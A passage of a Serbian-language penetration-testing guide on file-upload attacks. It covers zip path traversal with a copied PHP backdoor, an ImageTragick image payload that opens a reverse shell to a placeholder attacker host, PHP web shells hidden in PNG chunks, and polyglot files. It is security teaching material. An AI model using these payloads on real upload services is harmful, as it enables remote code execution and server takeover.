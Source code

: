 2. **Prskanje Fajlova i Kreiranje Kompresovanog Fajla**: Kreiraju se više fajlova i sastavlja se zip arhiva koja sadrži ove fajlove.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```

3. **Modifikacija pomoću Hex Editora ili vi**: Imena fajlova unutar zip arhive se menjaju korišćenjem vi ili hex editora, menjajući "xxA" u "../" da bi se pretraživali direktorijumi.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Otpremite ovaj sadržaj sa ekstenzijom slike da iskoristite ranjivost **(ImageMagick, 7.0.1-1)** (iz [exploita](https://www.exploit-db.com/exploits/39767))

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

## Ugrađivanje PHP Shell-a u PNG

Ugrađivanje PHP Shell-a u IDAT blok PNG datoteke može efikasno zaobići određene operacije obrade slika. Funkcije `imagecopyresized` i `imagecopyresampled` iz PHP-GD su posebno relevantne u ovom kontekstu, jer se često koriste za promenu veličine i resampling slika. Mogućnost ugrađenog PHP Shell-a da ostane neizmenjen nakon ovih operacija predstavlja značajnu prednost za određene slučajeve upotrebe.

Detaljno istraživanje ove tehnike, uključujući metodologiju i potencijalne primene, pruženo je u sledećem članku: ["Kodiranje Web Shell-ova u PNG IDAT blokovima"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). Ovaj resurs pruža sveobuhvatno razumevanje procesa i njegovih implikacija.

Više informacija na: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

## Poliglotne Datoteke

Poliglotne datoteke služe kao jedinstveno sredstvo u kibernetičkoj bezbednosti, delujući kao kameleoni koji mogu validno postojati u više formata datoteka istovremeno. Zanimljiv primer je [GIFAR](https://en.wikipedia.org/wiki/Gifar), hibrid koji funkcioniše kao GIF i RAR arhiva istovremeno. Takve datoteke nisu ograničene samo na ovu kombinaciju; kombinacije poput GIF-a i JS-a ili PPT-a i JS-a su takođe izvodljive.
